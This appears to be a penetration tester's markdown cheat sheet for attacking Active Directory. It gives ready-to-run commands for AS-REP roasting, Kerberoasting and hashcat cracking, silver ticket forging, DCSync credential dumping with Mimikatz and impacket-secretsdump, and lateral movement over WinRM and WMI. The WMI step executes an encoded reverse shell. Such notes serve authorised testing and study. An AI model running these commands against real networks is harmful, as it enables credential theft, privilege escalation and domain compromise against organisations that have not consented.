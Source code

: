 # Active Directory

## Compromising Credentials

### AS-REP Roasting
If for some ridiculous reason the `Do not require Kerberos preauthentication` user setting is enabled, the door is open for querying for and receiving the users encrypted credentials, which we can then crack offline:
```bash
impacket-GetNPUsers -dc-ip 192.168.12.34  -request -outputfile hashes.asreproast our.domain/chumpasaurusUser
```
Then crack with Hashcat:
```bash
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
If we'd like to do the same thing but from Windows then:
```powershell
.\Rubeus.exe asreproast /nowrap
```
Copy the output to Kali and save it in a file called `hashes.asreproast`, and the command above will work just as well.

### Kerberoasting
For classic Kerberoasting from Windows:
```powershell
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```
Same deal with copying the hashes back over to Kali:
```bash
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
For the same but from Kali:
```bash
sudo impacket-GetUserSPNs -request -dc-ip 192.168.12.34 our.domain/chumpasaurusUser
```

### Silver Tickets
If attempting to forge a silver ticket to hit a website, the following will work nicely from within Mimikatz:
```
mimikatz # kerberos::golden /sid:<current user SID> /domain:our.domain /ptt /target:target-site.our.domain /service:http /rc4:<NTLM hash of user whose privilege we want to assume> /user:chumpasaurusUser
```

### DC Sync
We can impersonate a Domain Controller and prompt others to perform a sync operation. This can allow us to retrieve the NTLM hash of any user. Via Mimikatz:
```
mimikatz # lsadump::dcsync /user:corp\Administrator
```
and via Linux:
```bash
impacket-secretsdump -just-dc-user Administrator corp.com/powerfulUser:"rubbishPassw0rd\!"@192.168.12.34
```

## Moving Laterally

### Powershell Creds Block
For both WinRM and WMI make use of the following to generate a `$credential` variable:
```powershell
$username = 'chump';
$password = 'chumpsDogsName123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
```


### WinRM
Assuming you have credentials, the following will give us a Powershell session 
```powershell
New-PSSession -ComputerName 192.168.12.34 -Credential $credential
Enter-PSsession 1
```

### WMI
If for some reason we cannot use WinRM, or if we'd rather have a reverse shell from Kali, then worth trying WMI as an alternative:
```powershell
$Options = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName 192.168.12.34 -Credential $credential -SessionOption $Options
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```
The `$Command` variable used above that isn't explicitly defined anywhere should be a base64 encoded reverse shell written in Powershell as detailed in `notes/shells.md`
